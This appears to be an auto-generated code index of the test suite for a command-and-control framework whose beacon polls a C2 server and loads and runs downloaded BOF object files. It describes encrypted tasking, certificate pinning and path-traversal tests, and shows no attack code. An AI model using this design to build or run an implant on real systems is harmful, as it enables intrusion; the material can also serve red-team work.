- `TestC2RESTAPI` (line 18) `class TestC2RESTAPI` - *BDD test suite for C2 REST API.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_c2_server.py`
**Path:** `mutants/tests/test_c2_server.py`
**File Doc:** *Unit tests for the C2 server dispatcher.  We import the dispatcher from c2/server.py and exercise handle_request() with synthetic selectors. No socket, no threading, no real network - just the pure function.*

**Functions:**
- `make_state` (line 39) `def make_state(tmp)`
- `test_get_command_empty` (line 46) `def test_get_command_empty()`
- `test_get_command_queued` (line 58) `def test_get_command_queued()`
- `test_report_writes_log` (line 69) `def test_report_writes_log()`
- `test_bof_not_found` (line 85) `def test_bof_not_found()`
- `test_bof_serves_existing_file` (line 92) `def test_bof_serves_existing_file()`
- `test_unknown_selector` (line 104) `def test_unknown_selector()`
- `test_path_traversal_in_bof_name` (line 111) `def test_path_traversal_in_bof_name()` - *Path-traversal in /bof/ should be neutralised by os.path.basename.*
- `test_roundtrip_empty` (line 120) `def test_roundtrip_empty()` - *encrypt then decrypt empty payload must yield single NUL byte.*
- `test_roundtrip_text` (line 127) `def test_roundtrip_text()`
- `main` (line 134) `def main()`

#### `test_certificate_pinning.py`
**Path:** `mutants/tests/test_certificate_pinning.py`
**File Doc:** *Tests for Certificate Pinning / TOFU (Contract: Certificate Pinning / TOFU)  BDD Scenarios: 1. Given a config with cert_fingerprint_sha256, when beacon connects, then it pins the certificate 2. Given a config without cert_fingerprint_sha256, when beacon connects first time, then it stores fingerprint (TOFU) 3. Given a mismatched fingerprint, when beacon connects, then it fails closed 4. Given valid fingerprint, when beacon connects, then it succeeds*

**Classes:**
- `TestCertificatePinningConfig` (line 23) `class TestCertificatePinningConfig` - *Test config loading for certificate pinning.*
- `TestCertificatePinningCConfig` (line 86) `class TestCertificatePinningCConfig` - *Test C config loading for certificate pinning.*
- `TestCertificatePinningIntegration` (line 96) `class TestCertificatePinningIntegration` - *Integration tests for certificate pinning with C2 server.*
- `TestCertificatePinningMutationResistance` (line 126) `class TestCertificatePinningMutationResistance` - *Tests designed to kill mutants - each test targets a specific mutation.*

**Methods:**
- `test_config_loads_empty_fingerprint` (line 26) `def test_config_loads_empty_fingerprint(self)` - *Given config with empty cert_fingerprint_sha256, when loaded, then fingerprint is empty string.*
- `test_config_loads_valid_fingerprint` (line 38) `def test_config_loads_valid_fingerprint(self)` - *Given config with valid 64-char hex fingerprint, when loaded, then fingerprint is stored.*
- `test_config_rejects_invalid_fingerprint_length` (line 51) `def test_config_rejects_invalid_fingerprint_length(self)` - *Given config with invalid fingerprint length, when loaded, then ValueError is raised.*
- `test_config_rejects_non_hex_fingerprint` (line 62) `def test_config_rejects_non_hex_fingerprint(self)` - *Given config with non-hex fingerprint, when loaded, then ValueError is raised.*
- `test_config_defaults_to_empty_fingerprint` (line 73) `def test_config_defaults_to_empty_fingerprint(self)` - *Given config without cert_fingerprint_sha256 field, when loaded, then defaults to empty string.*
- `test_c_config_parses_fingerprint_field` (line 89) `def test_c_config_parses_fingerprint_field(self)` - *Given config with cert_fingerprint_sha256 field, when C loader parses, then field is accessible.*
- `test_beacon_verifies_pinned_certificate` (line 99) `def test_beacon_verifies_pinned_certificate(self)` - *Given a beacon with a pinned certificate fingerprint,
When it connects to C2 with matching cert,
Then the connection succeeds.*
- `test_beacon_rejects_mismatched_certificate` (line 109) `def test_beacon_rejects_mismatched_certificate(self)` - *Given a beacon with a pinned certificate fingerprint,
When it connects to C2 with different cert,
Then the connection fails (CURLE_SSL_PINNEDPUBKEYNOTMATCH).*
- `test_tofu_first_connection_stores_fingerprint` (line 117) `def test_tofu_first_connection_stores_fingerprint(self)` - *Given a beacon with no pinned fingerprint (TOFU mode),
When it connects to C2 for the first time,
Then it stores the fingerprint for future connections.*
- `test_fingerprint_empty_check_not_mutated_to_always_true` (line 129) `def test_fingerprint_empty_check_not_mutated_to_always_true(self)` - *Mutant: if (cfg->network.cert_fingerprint_sha256[0] != '') -> if (1)
Test: Empty fingerprint should NOT enable pinning.*
- `test_fingerprint_hex_validation_not_mutated` (line 139) `def test_fingerprint_hex_validation_not_mutated(self)` - *Mutant: hex validation regex changed to accept invalid chars
Test: Non-hex chars must be rejected.*
- `test_pin_option_set_only_when_fingerprint_present` (line 151) `def test_pin_option_set_only_when_fingerprint_present(self)` - *Mutant: CURLOPT_PINNEDPUBLICKEY set unconditionally
Test: Pin option should only be set when fingerprint is non-empty.*

#### `test_certificate_pinning___tofu.py`
**Path:** `mutants/tests/test_certificate_pinning___tofu.py`
**File Doc:** *Auto-generated test for contract: Certificate Pinning / TOFU BDD-style tests derived from specification.*

**Classes:**
- `TestCertificatePinningTOFU` (line 18) `class TestCertificatePinningTOFU` - *BDD test suite for Certificate Pinning / TOFU.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_command_execution_via_execve.py`
**Path:** `mutants/tests/test_command_execution_via_execve.py`
**File Doc:** *Auto-generated test for contract: Command Execution via execve BDD-style tests derived from specification.*

**Classes:**
- `TestCommandExecutionviaexecve` (line 18) `class TestCommandExecutionviaexecve` - *BDD test suite for Command Execution via execve.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_config.py`
**Path:** `mutants/tests/test_config.py`
**File Doc:** *Unit tests for the BSB JSON config loader.  We exercise the loader via a small C harness compiled with the config.c source. The Python side just calls the harness binary and checks the printed fields.  The harness prints lines in the form "key=value" so we can parse the output deterministically.*

**Functions:**
- `compile_harness` (line 24) `def compile_harness()` - *Build the test harness against config.c.*
- `run_harness` (line 38) `def run_harness(config_text)` - *Write a config file, run the harness, return parsed output.*
- `test_default_load` (line 55) `def test_default_load()`
- `test_overrides` (line 73) `def test_overrides()`
- `test_missing_file` (line 90) `def test_missing_file()`
- `test_search_order_env_wins` (line 98) `def test_search_order_env_wins()` - *$BSB_CONFIG must take precedence over the binary-relative path.*
- `test_search_order_falls_back_to_cwd_default` (line 115) `def test_search_order_falls_back_to_cwd_default()` - *With BSB_CONFIG unset, the harness resolves to ./config.json
(the binary-relative lookup is irrelevant in the harness because
the harness lives in tests/, not next to a config.json).*
- `test_bad_hex_key` (line 141) `def test_bad_hex_key()`
- `main` (line 156) `def main()`

#### `test_containerized_build_+_sbom.py`
**Path:** `mutants/tests/test_containerized_build_+_sbom.py`
**File Doc:** *Auto-generated test for contract: Containerized Build + SBOM BDD-style tests derived from specification.*

*No symbols extracted*

#### `test_crypto.py`
**Path:** `mutants/tests/test_crypto.py`
**File Doc:** *Roundtrip tests for AES-256-CFB.  Verifies the C implementation in include/aes_cfb.c is internally consistent. Cross-implementation tests (C <-> Python) live in test_c2_server.py because the Python side runs inside the C2 server, not the test harness.*

**Functions:**
- `compile_harness` (line 27) `def compile_harness()` - *Build the harness if it is missing or older than its sources.

pytest imports this module and calls run() directly, so the build
cannot live in main() alone -- another test runs `make clean` and
wipes build/ mid-session. Rebuilding on staleness keeps both entry
points (pytest and `python3 tests/test_crypto.py`) working.*
- `run` (line 50) `def run(plaintext, key_hex)`
- `test_short` (line 59) `def test_short()`
- `test_block_boundary` (line 63) `def test_block_boundary()`
- `test_longer_than_block` (line 68) `def test_longer_than_block()`
- `test_known_ciphertext` (line 74) `def test_known_ciphertext()`
- `test_python_can_decrypt_c_ciphertext` (line 93) `def test_python_can_decrypt_c_ciphertext()` - *The Python C2 server must be able to decrypt C-encrypted
commands. We feed a known key+plaintext through the C harness,
extract the ciphertext, then decrypt with Python and check we
recover the original plain.*
- `main` (line 126) `def main()`

#### `test_hkdf_key_derivation.py`
**Path:** `mutants/tests/test_hkdf_key_derivation.py`
**File Doc:** *Auto-generated test for contract: HKDF Key Derivation BDD-style tests derived from specification.*

**Classes:**
- `TestHKDFKeyDerivation` (line 18) `class TestHKDFKeyDerivation` - *BDD test suite for HKDF Key Derivation.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_install_deploy.py`
**Path:** `mutants/tests/test_install_deploy.py`
**File Doc:** *End-to-end test for the "make beacon && ./build/beacon" workflow.  After `make clean && make beacon bofs`, the operator expects: - build/beacon          runnable binary (mode 0755) - build/config.json     operator-only (mode 0600) - build/bof/*.x64.o     5 BOFs ready to copy to the C2  Running the binary from any CWD should pick up build/config.json (the binary-relative search path).*

**Functions:**
- `make_all` (line 23) `def make_all()` - *Clean and build everything, return nothing.*
- `run_beacon` (line 29) `def run_beacon(binary, cwd)` - *Run the beacon from `cwd` and return (output, exit_code).

exit_code is None when the 3s cap tripped, which is the expected
path: the beacon polls the C2 forever, so it never exits on its
own. (The bare main() runner handled TimeoutExpired inline;
pytest surfaces it as a failure, so it is normalised here.)*
- `test_build_beacon_lands_alongside_config` (line 56) `def test_build_beacon_lands_alongside_config()` - *The point of this whole iteration: `make beacon` leaves
a runnable binary with its config next to it, no env vars
or extra steps required.*
- `test_staged_files_have_correct_modes` (line 67) `def test_staged_files_have_correct_modes()`
- `test_staged_beacon_runs_from_any_cwd` (line 75) `def test_staged_beacon_runs_from_any_cwd()` - *Drop the operator in /tmp; the staged beacon should still
find build/config.json via the binary-relative search path.*
- `test_staged_bofs_are_present` (line 90) `def test_staged_bofs_are_present()`
- `test_clean_removes_everything` (line 98) `def test_clean_removes_everything()` - *make clean must wipe build/ — including the staged config.json —
but leave config/config.json (the operator's copy) alone.

This is the last test that runs, so we leave the operator with a
fresh deliverable tree afterwards. `make clean` is destructive
and the operator's only copy of build/ is whatever the previous
test left behind; rebuilding here guarantees `./build/beacon`
and the staged BOFs are present after `make test` finishes.*
- `main` (line 120) `def main()`

#### `test_iv_generation_with_entropy_verification.py`
**Path:** `mutants/tests/test_iv_generation_with_entropy_verification.py`
**File Doc:** *Auto-generated test for contract: IV Generation with Entropy Verification BDD-style tests derived from specification.*

**Classes:**
- `TestIVGenerationwithEntropyVerification` (line 18) `class TestIVGenerationwithEntropyVerification` - *BDD test suite for IV Generation with Entropy Verification.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_mutation_testing_integration.py`
**Path:** `mutants/tests/test_mutation_testing_integration.py`
**File Doc:** *Auto-generated test for contract: Mutation Testing Integration BDD-style tests derived from specification.*

**Classes:**
- `TestMutationTestingIntegration` (line 18) `class TestMutationTestingIntegration` - *BDD test suite for Mutation Testing Integration.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_pre-commit_+_ci_hardening.py`
**Path:** `mutants/tests/test_pre-commit_+_ci_hardening.py`
**File Doc:** *Auto-generated test for contract: Pre-commit + CI Hardening BDD-style tests derived from specification.*

*No symbols extracted*

#### `test_replay_protection.py`
**Path:** `mutants/tests/test_replay_protection.py`
**File Doc:** *Auto-generated test for contract: Replay Protection BDD-style tests derived from specification.*

**Classes:**
- `TestReplayProtection` (line 18) `class TestReplayProtection` - *BDD test suite for Replay Protection.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_socks5___http_proxy_support.py`
**Path:** `mutants/tests/test_socks5___http_proxy_support.py`
**File Doc:** *Auto-generated test for contract: SOCKS5 / HTTP Proxy Support BDD-style tests derived from specification.*

**Classes:**
- `TestSOCKS5HTTPProxySupport` (line 18) `class TestSOCKS5HTTPProxySupport` - *BDD test suite for SOCKS5 / HTTP Proxy Support.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_structured_jsonl_logging.py`
**Path:** `mutants/tests/test_structured_jsonl_logging.py`
**File Doc:** *Auto-generated test for contract: Structured JSONL Logging BDD-style tests derived from specification.*

**Classes:**
- `TestStructuredJSONLLogging` (line 18) `class TestStructuredJSONLLogging` - *BDD test suite for Structured JSONL Logging.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_tls_client_certificate_authentication.py`
**Path:** `mutants/tests/test_tls_client_certificate_authentication.py`
**File Doc:** *Auto-generated test for contract: TLS Client Certificate Authentication BDD-style tests derived from specification.*

**Classes:**
- `TestTLSClientCertificateAuthentication` (line 18) `class TestTLSClientCertificateAuthentication` - *BDD test suite for TLS Client Certificate Authentication.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `test_unified_config_schema.py`
**Path:** `mutants/tests/test_unified_config_schema.py`
**File Doc:** *Auto-generated test for contract: Unified Config Schema BDD-style tests derived from specification.*

**Classes:**
- `TestUnifiedConfigSchema` (line 18) `class TestUnifiedConfigSchema` - *BDD test suite for Unified Config Schema.*

**Methods:**
- `test_placeholder_fails_initially` (line 21) `def test_placeholder_fails_initially(self)` - *This test should fail until implementation is complete.*

#### `mutmut_config.py`
**Path:** `mutmut_config.py`

*No symbols extracted*

#### `mutation_test_c.py`
**Path:** `scripts/mutation_test_c.py`
**File Doc:** *C Mutation Testing Script  This script performs mutation testing on C code by: 1. Creating mutated copies of source files 2. Compiling and running tests against each mutant 3. Reporting killed vs surviving mutants  Mutation operators: - Arithmetic replacement (+ -> -, - -> +, * -> /, / -> *) - Relational replacement (< -> >, > -> <, <= -> >=, >= -> <=, == -> !=, != -> ==) - Logical replacement (&& -> ||, || -> &&, ! -> (removed)) - Constant replacement (0 -> 1, 1 -> 0, -1 -> 1, TRUE -> FALSE, FALSE -> TRUE) - Statement deletion (remove entire statements) - Return value replacement (return 0 -> return 1, etc.)*

**Functions:**
- `should_mutate` (line 73) `def should_mutate(filepath)` - *Check if file should be mutated.*
- `find_mutable_lines` (line 82) `def find_mutable_lines(content)` - *Find lines that can be mutated. Returns (line_num, original, mutated, operator).*
- `apply_mutation` (line 103) `def apply_mutation(content, line_num, mutated_line)` - *Apply a single mutation to content.*
- `compile_and_test` (line 111) `def compile_and_test(mutant_dir, test_name)` - *Compile and run a specific test against mutant code.*
- `run_mutation_test` (line 136) `def run_mutation_test()` - *Run mutation testing on all C source files.*
- `main` (line 222) `def main()`

#### `test_beacon_build.py`
**Path:** `tests/test_beacon_build.py`
**File Doc:** *Sanity build test: compile the v1 beacon against include/config.c and verify the binary links and embeds the symbols we expect.  This test is skipped (not failed) if the OpenSSL or libcurl dev headers are missing, so it works on a clean CI runner and on a dev box without those installed. CI installs them explicitly.*

**Functions:**
- `have_headers` (line 29) `def have_headers()` - *Return True if openssl and curl headers are present.*
- `compile_beacon` (line 43) `def compile_beacon()`
- `inspect_binary` (line 74) `def inspect_binary()`
- `ensure_beacon` (line 79) `def ensure_beacon()` - *Rebuild the beacon if it is missing or older than its sources.

test_install_deploy.py runs `make clean`, which deletes build/;
a bare `if not BEACON.exists()` check would then inspect a stale
binary from an earlier run.*
- `test_beacon_compiles_and_links` (line 93) `def test_beacon_compiles_and_links()`
- `test_beacon_exposes_bof_api` (line 102) `def test_beacon_exposes_bof_api()`
- `test_beacon_exposes_elf_loader` (line 122) `def test_beacon_exposes_elf_loader()`
- `main` (line 132) `def main()`

#### `test_bof_compile.py`
**Path:** `tests/test_bof_compile.py`
**File Doc:** *Verify every BOF compiles with the BOF build flags.  A BOF is a position-independent ELF object that the beacon loads at runtime. It must: - compile with -nostdlib (no glibc) - be PIC - export `go` with the right signature - leave BeaconPrintf/BeaconOutput as undefined external refs*

**Functions:**
- `compile_bof` (line 21) `def compile_bof(name)`
- `inspect_symbols` (line 44) `def inspect_symbols(obj_path)`
- `test_compile_all` (line 62) `def test_compile_all()`
- `test_export_go` (line 71) `def test_export_go()`
- `test_unresolved_beacon_api` (line 79) `def test_unresolved_beacon_api()`
- `test_no_libc_leak` (line 97) `def test_no_libc_leak()` - *Make sure we did not pull in glibc symbols by accident.*
- `main` (line 118) `def main()`

#### `test_bof_path_traversal.py`
**Path:** `tests/test_bof_path_traversal.py`
**File Doc:** *Tests for BOF Path Traversal Hardening (Contract: BOF Path Traversal Hardening)  BDD Scenarios: 1. Given a BOF request with normal name, when handled, then file is served from upload_dir 2. Given a BOF request with path traversal (../), when handled, then BOF_NOT_FOUND returned 3. Given a BOF request with absolute path, when handled, then BOF_NOT_FOUND returned 4. Given a BOF request with URL-encoded traversal, when handled, then BOF_NOT_FOUND returned 5. Given upload_dir symlink, when resolved, then realpath prevents escape*

**Classes:**
- `TestBOFPathTraversalConfig` (line 25) `class TestBOFPathTraversalConfig` - *Test config for BOF path traversal.*
- `TestBOFPathTraversalServer` (line 36) `class TestBOFPathTraversalServer` - *Test server-side BOF path traversal protection.*
- `TestBOFPathTraversalMutationResistance` (line 175) `class TestBOFPathTraversalMutationResistance` - *Tests designed to kill mutants in path traversal protection.*

**Methods:**
- `test_upload_dir_config_exists` (line 28) `def test_upload_dir_config_exists(self)` - *Given C2State, when initialized, then upload_dir is configured.*
- `test_normal_bof_name_served` (line 39) `def test_normal_bof_name_served(self)` - *Given normal BOF name, when requested, then file is served.*
- `test_path_traversal_parent_dir_rejected` (line 53) `def test_path_traversal_parent_dir_rejected(self)` - *Given BOF name with ../, when requested, then BOF_NOT_FOUND.*
- `test_path_traversal_multiple_parent_dirs_rejected` (line 65) `def test_path_traversal_multiple_parent_dirs_rejected(self)` - *Given BOF name with ../../../, when requested, then BOF_NOT_FOUND.*
- `test_path_traversal_with_subdir_rejected` (line 77) `def test_path_traversal_with_subdir_rejected(self)` - *Given BOF name with subdir/../, when requested, then BOF_NOT_FOUND.*
- `test_absolute_path_rejected` (line 89) `def test_absolute_path_rejected(self)` - *Given absolute path, when requested, then BOF_NOT_FOUND.*
- `test_url_encoded_traversal_rejected` (line 101) `def test_url_encoded_traversal_rejected(self)` - *Given URL-encoded ../ (%2e%2e%2f), when requested, then BOF_NOT_FOUND.*
- `test_double_url_encoded_traversal_rejected` (line 114) `def test_double_url_encoded_traversal_rejected(self)` - *Given double URL-encoded ../ (%252e%252e%252f), when requested, then BOF_NOT_FOUND.*
- `test_null_byte_injection_rejected` (line 126) `def test_null_byte_injection_rejected(self)` - *Given name with null byte, when requested, then BOF_NOT_FOUND.*
- `test_upload_dir_symlink_escape_prevented` (line 138) `def test_upload_dir_symlink_escape_prevented(self)` - *Given upload_dir is symlink, when resolved, then realpath prevents escape.*
- `test_symlink_outside_upload_dir_rejected` (line 156) `def test_symlink_outside_upload_dir_rejected(self)` - *Given symlink inside upload_dir pointing outside, when requested, then BOF_NOT_FOUND.*
- `test_basename_not_sufficient_protection` (line 178) `def test_basename_not_sufficient_protection(self)` - *Mutant: only using os.path.basename. Test: basename doesn't prevent all traversal.*
- `test_realpath_prefix_check_not_mutated` (line 186) `def test_realpath_prefix_check_not_mutated(self)` - *Mutant: prefix check changed to startswith without realpath. Test: must use realpath.*
- `test_case_sensitivity_on_linux` (line 216) `def test_case_sensitivity_on_linux(self)` - *Mutant: case-insensitive comparison. Test: Linux filesystem is case-sensitive.*
- `test_unicode_normalization_not_mutated` (line 234) `def test_unicode_normalization_not_mutated(self)` - *Mutant: Unicode normalization bypass. Test: NFC/NFD normalization handled.*

#### `test_c2_beacon_bof_integration.py`
**Path:** `tests/test_c2_beacon_bof_integration.py`
**File Doc:** *End-to-end integration test: C2 Server + Beacon + BOF execution.  This test: 1. Starts the C2 server in a background thread 2. Runs the beacon as a subprocess 3. Injects a BOF command via the C2 REPL 4. Waits for the beacon to execute the BOF and report results 5. Verifies the BOF output matches expected 6. Cleans up beacon and C2 server*

**Classes:**
- `TestC2BeaconBOFIntegration` (line 34) `class TestC2BeaconBOFIntegration` - *Full integration test: C2 Server + Beacon + BOF.*

**Functions:**
- `test_c2_beacon_bof_integration` (line 300) `def test_c2_beacon_bof_integration()` - *Pytest entry point.*

**Methods:**
- `setup_method` (line 37) `def setup_method(self)` - *Create temporary directories and config.*
- `teardown_method` (line 71) `def teardown_method(self)` - *Clean up temporary files.*
- `_free_port` (line 76) `def _free_port(self)` - *Get a free port.*
- `_wait_for_server_ready` (line 84) `def _wait_for_server_ready(self, host, port, timeout)` - *Wait for server to accept connections.*
- `_wait_for_bof_result` (line 98) `def _wait_for_bof_result(self, state, client_id, timeout)` - *Poll for BOF result in the CSV log; returns the output column.*
- `test_beacon_executes_whoami_bof` (line 118) `def test_beacon_executes_whoami_bof(self)` - *Test: Beacon executes whoami BOF and returns output.*
- `_run_server` (line 283) `def _run_server(self, cfg, state)`
- `_wait_for_server_ready` (line 286) `def _wait_for_server_ready(self, host, port, timeout)`

#### `test_c2_http_e2e.py`
**Path:** `tests/test_c2_http_e2e.py`
**File Doc:** *End-to-end test: a real HTTP/1.1 client talks to a real TCP socket bound by server.serve(), and the full crypto roundtrip works.  This catches the wire-format mismatch that bit us before: the beacon speaks HTTP/1.1 (libcurl), the server used to expect a raw Gopher selector. They could not talk.  We use a free port, run the server in a daemon thread, and drive it with raw sockets — no libcurl, no real network loopback surprises.*

**Functions:**
- `_free_port` (line 45) `def _free_port()`
- `_recv_response` (line 53) `def _recv_response(sock, timeout)`
- `test_http_get_poll_returns_encrypted_command` (line 67) `def test_http_get_poll_returns_encrypted_command()` - *Beacon-style HTTP/1.1 GET /<uri>/<id> must return a base64
body the server can encrypt and we can decrypt with the shared
AES key. Before the fix, the server returned iUNKNOWN_SELECTOR.*
- `test_http_post_report_writes_log` (line 122) `def test_http_post_report_writes_log()` - *Beacon-style HTTP/1.1 POST /report/<b64> must reach the
report handler, decrypt, parse, and write a CSV row. Before
the fix, the POST went to the same URL as the GET (poll),
so the server logged an UNKNOWN_SELECTOR error and the
CSV never had a row for this client.*
- `test_gopher_legacy_still_works` (line 192) `def test_gopher_legacy_still_works()` - *The old Gopher-style selector (single line, CRLF) must
still dispatch correctly — server.py keeps that path so
anything that depended on it is not broken by the new
HTTP/1.1 entry point.*
- `test_http_post_with_url_encoded_b64_payload` (line 246) `def test_http_post_with_url_encoded_b64_payload()` - *The beacon percent-encodes the base64 payload before
splicing it onto the URL path. Standard base64 uses '+',
'/', and '=' which would otherwise produce an invalid
HTTP request line (extra '/' would split the path, '+'
is space-encoded, '=' is a query marker). This test
replicates that: encode the payload exactly as the
beacon does, send it, and assert the report is decrypted
and logged.*
- `test_fragmented_post_is_dispatched_as_http` (line 347) `def test_fragmented_post_is_dispatched_as_http()` - *When the client sends a long POST URL that crosses a TCP
segment boundary, the first recv() inside server.serve() may
not include "HTTP/1.1" yet. Before the _read_http_request
fix, this made the dispatcher fall through to the legacy
Gopher branch and return iUNKNOWN_SELECTOR. We reproduce that
fragmentation here by sending the request in two pieces with
a small delay between them. The expected behavior is that the
server still parses the full request, decrypts, and writes
the log line.*
- `main` (line 422) `def main()`
- `encode` (line 288) `def encode(s)`

#### `test_c2_server.py`
**Path:** `tests/test_c2_server.py`
**File Doc:** *Unit tests for the C2 server dispatcher.  We import the dispatcher from c2/server.py and exercise handle_request() with synthetic selectors. No socket, no threading, no real network - just the pure function.*

**Functions:**
- `make_state` (line 41) `def make_state(tmp)`
- `test_get_command_empty` (line 48) `def test_get_command_empty()`
- `test_get_command_queued` (line 60) `def test_get_command_queued()`
- `test_report_writes_log` (line 71) `def test_report_writes_log()`
- `test_bof_not_found` (line 96) `def test_bof_not_found()`
- `test_bof_serves_existing_file` (line 103) `def test_bof_serves_existing_file()`
- `test_unknown_selector` (line 115) `def test_unknown_selector()`
- `test_path_traversal_in_bof_name` (line 122) `def test_path_traversal_in_bof_name()` - *Path-traversal in /bof/ should be neutralised by os.path.basename.*
- `test_roundtrip_empty` (line 131) `def test_roundtrip_empty()` - *encrypt then decrypt empty payload must yield single NUL byte.*
- `test_roundtrip_text` (line 138) `def test_roundtrip_text()`
- `main` (line 145) `def main()`

#### `test_certificate_pinning.py`
**Path:** `tests/test_certificate_pinning.py`
**File Doc:** *Tests for Certificate Pinning / TOFU (Contract: Certificate Pinning / TOFU)  BDD Scenarios: 1. Given a config with cert_fingerprint_sha256, when beacon connects, then it pins the certificate 2. Given a config without cert_fingerprint_sha256, when beacon connects first time, then it stores fingerprint (TOFU) 3. Given a mismatched fingerprint, when beacon connects, then it fails closed 4. Given valid fingerprint, when beacon connects, then it succeeds*

**Classes:**
- `TestCertificatePinningConfig` (line 23) `class TestCertificatePinningConfig` - *Test config loading for certificate pinning.*
- `TestCertificatePinningCConfig` (line 86) `class TestCertificatePinningCConfig` - *Test C config loading for certificate pinning.*
- `TestCertificatePinningIntegration` (line 96) `class TestCertificatePinningIntegration` - *Integration tests for certificate pinning with a live TLS endpoint.

The beacon downloads the BOF from an HTTPS URL given in the
`bof:` command, so pinning is exercised against a local TLS server
(self-signed cert, verify_tls=false) while the C2 stays plain HTTP.*
- `TestCertificatePinningMutationResistance` (line 321) `class TestCertificatePinningMutationResistance` - *Tests designed to kill mutants - each test targets a specific mutation.*
- `Handler` (line 155) `class Handler(BaseHTTPRequestHandler)`

**Functions:**
- `_run` (line 171) `def _run()`

**Methods:**
- `test_config_loads_empty_fingerprint` (line 26) `def test_config_loads_empty_fingerprint(self)` - *Given config with empty cert_fingerprint_sha256, when loaded, then fingerprint is empty string.*
- `test_config_loads_valid_fingerprint` (line 38) `def test_config_loads_valid_fingerprint(self)` - *Given config with valid 64-char hex fingerprint, when loaded, then fingerprint is stored.*
- `test_config_rejects_invalid_fingerprint_length` (line 51) `def test_config_rejects_invalid_fingerprint_length(self)` - *Given config with invalid fingerprint length, when loaded, then ValueError is raised.*
- `test_config_rejects_non_hex_fingerprint` (line 62) `def test_config_rejects_non_hex_fingerprint(self)` - *Given config with non-hex fingerprint, when loaded, then ValueError is raised.*
- `test_config_defaults_to_empty_fingerprint` (line 73) `def test_config_defaults_to_empty_fingerprint(self)` - *Given config without cert_fingerprint_sha256 field, when loaded, then defaults to empty string.*
- `test_c_config_parses_fingerprint_field` (line 89) `def test_c_config_parses_fingerprint_field(self)` - *Given config with cert_fingerprint_sha256 field, when C loader parses, then field is accessible.*
- `_free_port` (line 106) `def _free_port(self)`
- `_gen_cert_and_pin` (line 114) `def _gen_cert_and_pin(self)` - *Self-signed cert + hex pin of the subject public key (curl pins SPKI).*
- `_start_tls_server` (line 149) `def _start_tls_server(self, port, cert_pem, key_pem, body)` - *Serve `body` (bytes) over HTTPS until the returned stop event is set.*
- `_run_beacon_with_bof_tls` (line 181) `def _run_beacon_with_bof_tls(self, cert_pem, key_pem, pin_hex)` - *Drive the C2+beacon round-trip; beacon downloads the BOF over
TLS (served with cert_pem/key_pem) while pinning `pin_hex`.
Returns the BOF output column from the C2 log (or None).*
- `test_beacon_verifies_pinned_certificate` (line 282) `def test_beacon_verifies_pinned_certificate(self)` - *Given a beacon with a pinned certificate fingerprint (64 hex chars),
When it connects to a TLS endpoint presenting the matching key,
Then the pinned download succeeds and the BOF output reaches the C2.*
- `test_beacon_rejects_mismatched_certificate` (line 293) `def test_beacon_rejects_mismatched_certificate(self)` - *Given a beacon pinned to one key,
When the TLS endpoint presents a different key,
Then the download fails closed (no BOF output).*
- `test_tofu_first_connection_stores_fingerprint` (line 307) `def test_tofu_first_connection_stores_fingerprint(self)` - *Given a beacon with no pinned fingerprint (TOFU mode),
When it connects to C2 for the first time,
Then it stores the fingerprint for future connections.

NOTE: TOFU persistence is NOT implemented yet (contract gap):
the beacon only pins what the config provides and never
persists a first-seen fingerprint. Kept skipped until the
beacon gains fingerprint persistence.*
- `test_fingerprint_empty_check_not_mutated_to_always_true` (line 324) `def test_fingerprint_empty_check_not_mutated_to_always_true(self)` - *Mutant: if (cfg->network.cert_fingerprint_sha256[0] != '') -> if (1)
Test: Empty fingerprint should NOT enable pinning.*
- `test_fingerprint_hex_validation_not_mutated` (line 334) `def test_fingerprint_hex_validation_not_mutated(self)` - *Mutant: hex validation regex changed to accept invalid chars
Test: Non-hex chars must be rejected.*
- `test_pin_option_set_only_when_fingerprint_present` (line 346) `def test_pin_option_set_only_when_fingerprint_present(self)` - *Mutant: CURLOPT_PINNEDPUBLICKEY set unconditionally
Test: Pin option should only be set when fingerprint is non-empty.*
- `do_GET` (line 156) `def do_GET(self)`
- `log_message` (line 162) `def log_message(self)`

#### `test_config.py`
**Path:** `tests/test_config.py`
**File Doc:** *Unit tests for the BSB JSON config loader.  We exercise the loader via a small C harness compiled with the config.c source. The Python side just calls the harness binary and checks the printed fields.  The harness prints lines in the form "key=value" so we can parse the output deterministically.*

**Functions:**
- `compile_harness` (line 25) `def compile_harness()` - *Build the test harness against config.c.*
- `run_harness` (line 46) `def run_harness(config_text)` - *Write a config file, run the harness, return parsed output.*
- `test_default_load` (line 63) `def test_default_load()`
- `test_overrides` (line 81) `def test_overrides()`
- `test_missing_file` (line 104) `def test_missing_file()`
- `test_search_order_env_wins` (line 112) `def test_search_order_env_wins()` - *$BSB_CONFIG must take precedence over the binary-relative path.*
- `test_search_order_falls_back_to_cwd_default` (line 137) `def test_search_order_falls_back_to_cwd_default()` - *With BSB_CONFIG unset, the harness resolves to ./config.json
(the binary-relative lookup is irrelevant in the harness because
the harness lives in tests/, not next to a config.json).*
- `test_bad_hex_key` (line 172) `def test_bad_hex_key()`
- `main` (line 187) `def main()`

#### `test_crypto.py`
**Path:** `tests/test_crypto.py`
**File Doc:** *Roundtrip tests for AES-256-CFB.  Verifies the C implementation in include/aes_cfb.c is internally consistent. Cross-implementation tests (C <-> Python) live in test_c2_server.py because the Python side runs inside the C2 server, not the test harness.*

**Functions:**
- `compile_harness` (line 27) `def compile_harness()` - *Build the harness if it is missing or older than its sources.

pytest imports this module and calls run() directly, so the build
